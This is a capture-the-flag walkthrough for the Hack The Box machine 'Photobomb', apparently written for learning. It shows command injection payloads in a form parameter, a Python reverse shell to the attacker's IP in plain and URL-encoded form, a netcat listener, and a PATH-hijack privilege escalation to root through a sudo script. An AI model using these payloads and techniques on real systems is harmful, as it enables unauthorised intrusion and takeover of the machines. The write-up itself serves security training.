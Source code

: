 # Photobomb 

## Victim IP

`export target="10.10.11.182"`

## Attacker IP

`export attacker="10.10.16.6"`


## Open Ports

```
sudo nmap -Pn -p- -sS -T4 ${target}
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-20 21:57 EST
Nmap scan report for 10.10.11.182
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

## Enumerate Open Ports

```
nmap -Pn -p22,80 -sC -sV ${target} -oA ${target}
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-20 21:57 EST
Nmap scan report for 10.10.11.182
Host is up (0.0085s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds

```

## Add site name to /etc/hosts

```
grep ${target} /etc/hosts
10.10.11.182 photobomb.htb

```

## Set up Proxy and visit site

Step up Burp Suite to proxy the traffic for http://photobomb.htb and then visit the site.  Looking at the HTTPHistory in Burp Suite, we see that the site makes a call to a js file, photobomb.js.  This file contains credentials to the /printer endpoint.

### photobomb.js snippet  

```
// Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://<REDACTED>:<REDACTED>@photobomb.htb/printer');
  }
}
```

The /printer endpoint contains an http form that performs a POST request with 3 parameters: `photo, filetype, and dimensions`.  I started tcpdump to listen for ICMP request and sent the following payload to each parameter: `;ping+-c+2+10.10.16.6`.  

### On attack box

`sudo tcpdump -i tun0 host ${target} and icmp `

### In Burp suite
- payload in photo parameter: `photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg;ping+-c+2+10.10.16.6&filetype=jpg&dimensions=150x100`
- payload in filetype parameter: `photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg&filetype=jpg;ping+-c+2+10.10.16.6&dimensions=150x100`
- payload in dimensions parameter: `photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg&filetype=jpg&dimensions=150x100;ping+-c+2+10.10.16.6`

We find that the filetype parameter is vulnerable to command injection:  

```
sudo tcpdump -i tun0 host ${target} and icmp       
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:42:59.555833 IP photobomb.htb > 10.10.16.6: ICMP echo request, id 4, seq 1, length 64
23:42:59.555871 IP 10.10.16.6 > photobomb.htb: ICMP echo reply, id 4, seq 1, length 64
23:43:00.557856 IP photobomb.htb > 10.10.16.6: ICMP echo request, id 4, seq 2, length 64
23:43:00.557894 IP 10.10.16.6 > photobomb.htb: ICMP echo reply, id 4, seq 2, length 64
```

So let's modify our payload to initiate a reverse shell.  The new payload is this(credits to [swisskyrepo]("https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp") for the Revere shell cheatsheets:  

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.6",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Replacing our previous ping command, the complete payload is this(the payload is url encoded):

```
photo=almas-salakhov-VK7TCqcZTlw-unsplash.jpg&filetype=jpg;%70%79%74%68%6f%6e%33%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%6f%73%2c%70%74%79%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%30%2e%31%30%2e%31%36%2e%36%22%2c%34%32%34%32%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%74%79%2e%73%70%61%77%6e%28%22%2f%62%69%6e%2f%73%68%22%29%27&dimensions=150x100
```

Setup a netcat listener on port 4242, submit the payload and catch the connection:
```
nc -lnvp 4242                                                                                                                                                                                    148 ⨯ 1 ⚙
listening on [any] 4242 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.182] 55714
$ whoami
whoami
wizard

```

## user flag

```
wizard@photobomb:~$ cat user.txt
cat user.txt
<REDACTED>
wizard@photobomb:~$ 
```
## sudo privileges

```
wizard@photobomb:/tmp$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

```

## We can run this script as root

```
wizard@photobomb:~/photobomb/source_images$ ls -ltr
ls -ltr
total 39220
-r--r--r-- 1 root root 1877621 Sep 14 09:29 voicu-apostol-MWER49YaD-M-unsplash.jpg
-r--r--r-- 1 root root  390372 Sep 14 09:29 masaaki-komori-NYFaNoiPf7A-unsplash.jpg
-r--r--r-- 1 root root 4343934 Sep 14 09:29 andrea-de-santis-uCFuP0Gc_MM-unsplash.jpg
-r--r--r-- 1 root root 1845735 Sep 14 09:29 tabitha-turner-8hg0xRg5QIs-unsplash.jpg
-r--r--r-- 1 root root 1631101 Sep 14 09:29 nathaniel-worrell-zK_az6W3xIo-unsplash.jpg
-r--r--r-- 1 root root 3031697 Sep 14 09:29 kevin-charit-XZoaTJTnB9U-unsplash.jpg
-r--r--r-- 1 root root 4566230 Sep 14 09:29 calvin-craig-T3M72YMf2oc-unsplash.jpg
-r--r--r-- 1 root root 6012726 Sep 14 09:29 eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg
-r--r--r-- 1 root root 1205127 Sep 14 09:29 finn-whelen-DTfhsDIWNSg-unsplash.jpg
-r--r--r-- 1 root root 5203844 Sep 14 09:29 almas-salakhov-VK7TCqcZTlw-unsplash.jpg
-r--r--r-- 1 root root 6020717 Sep 14 09:29 mark-mc-neill-4xWHIpY2QcY-unsplash.jpg
-r--r--r-- 1 root root 2808800 Sep 14 09:29 wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg
-rwxr-xr-x 1 root root 1183448 Nov 21 05:04 bash.jpg
wizard@photobomb:~/photobomb/source_images$ cd ..
cd ..
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

```
wizard@photobomb:~/photobomb$ cd /tmp
wizard@photobomb:/tmp$ echo "/usr/bin/bash -p" > find
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
whoami
root@photobomb:/home/wizard/photobomb# cd /root
cd /root
root@photobomb:~# ls
ls
root.txt
root@photobomb:~# cat root.txt
cat root.txt
<REDACTED>
root@photobomb:~#
```
